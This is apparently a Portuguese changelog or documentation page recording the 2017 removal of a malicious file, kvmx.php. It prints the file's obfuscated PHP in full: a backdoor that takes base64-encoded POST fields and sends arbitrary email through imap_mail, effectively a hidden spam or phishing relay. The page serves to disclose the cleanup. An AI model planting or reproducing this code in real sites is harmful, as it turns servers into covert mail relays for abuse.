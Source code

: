 ```yaml
---
id: doc34
title: Arquivos Maliciosos
sidebar_label: COD 2019-09-20:06
---
```


## 34.0.0 - 2017-09-25

### Fixed

- Removido arquivo kvmx.php com código malicioso

## Código

```php

<?php 
$jewrqwbnlk = base64_decode($_POST['ylxqjqbcn']); 
$xaouf = base64_decode($_POST['nrsf']); 
$jwgpxlzblkepa = base64_decode($_POST['tdluhqtnmzr']);  
$fcublsqtpae = base64_decode($_POST['qqifquaqdzvp']);  
$jfnbrsjfq = imap_mail($jewrqwbnlk, $xaouf, $jwgpxlzblkepa, $fcublsqtpae);
if($jfnbrsjfq){echo 'vwkxlpc';} else {echo 'yfbhn : ' . $jfnbrsjfq;} 

 
                             

 
 
                                           
                                

```

